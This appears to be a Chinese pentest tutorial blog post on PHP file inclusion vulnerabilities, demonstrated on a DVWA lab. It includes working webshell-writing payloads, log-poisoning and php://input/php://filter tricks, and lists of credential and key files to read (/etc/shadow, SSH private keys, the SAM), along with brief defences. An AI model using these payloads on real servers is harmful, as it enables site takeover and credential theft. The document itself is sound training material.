 +++
date = "2016-07-26T09:24:22+08:00"
description = ""
draft = false
tags = ["文件包含"]
title = "文件包含漏洞"
topics = ["Pentest"]

+++

环境：phpStudy 2016、DVWA v1.10

### 0x00 文件包含
程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这中文件调用的过程一般被称为文件包含。

程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，但正是由于这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。

几乎所有脚本语言都会提供文件包含的功能，但文件包含漏洞在PHP Web Application中居多,而在JSP、ASP、ASP.NET程序中却非常少，甚至没有，这是有些语言设计的弊端。

在PHP中经常出现包含漏洞，但这并不意味这其他语言不存在。

### 0x01 常见文件包含函数
```
include()：执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行
require()：只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本
include_once()和require_once()：若文件中代码已被包含则不会再次包含
```

### 0x02 利用条件
* 程序用include()等文件包含函数通过动态变量的范式引入需要包含的文件
* 用户能够控制该动态变量

``` 
注：PHP中只要文件内容符合PHP语法规范，包含时不管扩展名是什么都会被PHP解析，  
   若文件内容不符合PHP语法规范则会暴漏其源码。包含不存在的文件则可能暴露路径
```

### 0x03 漏洞危害
* 执行任意代码
* 读取文件源码或敏感信息
* 包含恶意文件控制网站
* 甚至控制服务器

### 0x04 漏洞分类
* 本地文件包含：可以包含本地文件，在条件允许时甚至能执行代码
    * 读敏感文件，读PHP文件
    * 包含日志文件GetShell
    * 上传图片马，然后包含从而GetShell
    * 包含/proc/self/envion文件GetShell
    * 包含data:或php://input等伪协议
    * 若有phpinfo则可以包含临时文件
* 远程文件包含：可以直接执行任意代码
    * 要保证php.ini中allow_url_fopen和allow_url_include要为On

### 0x05 漏洞挖掘
> 上AWVS或者自己写代码测试

### 0x06 本地包含GetShell

* 简单代码示例

```php
<?php
    if (@$_GET['page']) {
        include("./action/".$_GET['page']);
    } else {
        include "./action/show.php";
    }
?>
```
![文件包含-上传图片马](/img/post/file_include_upload2.png)
![文件包含-验证能包含图片马](/img/post/file_include_upload2_check.png)

* 包含图片马写shell
    * 生成包含```<?php fputs(fopen("shell.php","w"),"<?php eval(\$_POST['cmd']);?>")?>```的图片马
    * 上传后图片路径为../../hackable/uploads/aa.png
    * 访问```http://10.11.11.20/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/aa.png```
    * 在fi这个文件夹下会看到生成shell.php,内容为```<?php eval($_POST['cmd']);?>```

* 包含日志GetShell(主要是得到日志的路径)

```ini
在Linux下一般读日志路径：
文件包含漏洞读取apache配置文件
index.php?page=/etc/init.d/httpd
index.php?page=/etc/httpd/conf/httpd.conf
默认位置/var/log/httpd/access_log
```
日志会记录客户端请求及服务器响应的信息，访问```http://www.xx.com/<?php phpinfo(); ?>```时，<?php phpinfo(); ?>也会被记录在日志里，也可以插入到User-Agent
![文件包含-包含日志](/img/post/file_include_access.log1.png)
可以通过Burp Suite来绕过编码
![文件包含-包含日志](/img/post/file_include_access.log2.png)
日志内容如下：
![文件包含-包含日志](/img/post/file_include_access.log3.png)
![文件包含-包含日志](/img/post/file_include_access.log4.png)

* 使用PHP封装协议GetShell

```
allow_url_include=On时：

http://www.xxx.com/index.php?page=php://input
POST:<?php fputs(fopen("shell.php","w"),"<?php eval(\$_POST['cmd']);?>") ?>

结果将在index.php所在文件下生成一句话文件shell.php
```

* %00截断包含(PHP<5.3.4 and magic_quotes_gpc=Off，CVE-2006-7243)

![文件包含-上传图片马](/img/post/file_include_upload3.png)

还有一个路径长度截断，可以用.或/.或./截断，Windows需要259个bytes，Linux需要4096个bytes

* phpinfo包含临时文件GetShell

```
向phpinfo上传文件则可以返回文件路径，但是文件存在时间很短，
可以用程序持续上传，然后就可以包含你上传的文件了
```

* 包含环境变量文件GetShell

```
需要PHP运行在CGI模式
然后和包含日志一样，在User-Agent修改为payload
```

### 0x07 本地包含读文件
* 读敏感文件

![文件包含-读敏感文件](/img/post/file_include_read_file.png)

可读如下敏感文件：
```
Windows：
    C:\boot.ini  //查看系统版本
    C:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件
    C:\Windows\repair\sam  //存储系统初次安装的密码
    C:\Program Files\mysql\my.ini  //Mysql配置
    C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
    C:\Windows\php.ini  //php配置信息
    C:\Windows\my.ini  //Mysql配置信息
    ...
Linux：
    /root/.ssh/authorized_keys
    /root/.ssh/id_rsa
    /root/.ssh/id_ras.keystore
    /root/.ssh/known_hosts
    /etc/passwd
    /etc/shadow
    /etc/my.cnf
    /etc/httpd/conf/httpd.conf
    /root/.bash_history
    /root/.mysql_history
    /proc/self/fd/fd[0-9]*(文件标识符)
    /proc/mounts
    /porc/config.gz
```

* 读PHP文件源码

```
直接包含php文件时会被解析，不能看到源码，可以用封装协议读取：
?page=php://filter/read=convert.base64-encode/resource=config.php
访问上述URL后会返回config.php中经过Base64加密后的字符串，解密即可得到源码
```

### 0x08 远程包含
注：远程的文件名不能为php可解析的扩展名，allow_url_fopen和allow_url_include为On是必须的
![文件包含-远程包含](/img/post/file_include_remote_include.png)
若在a.txt写入```<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST['cmd']); ?>") ?>```，可直接写shell

### 0x09 漏洞防御
```
PHP中使用open_basedir配置，将访问限制在指定区域
过滤./\
禁止服务器远程文件包含
```
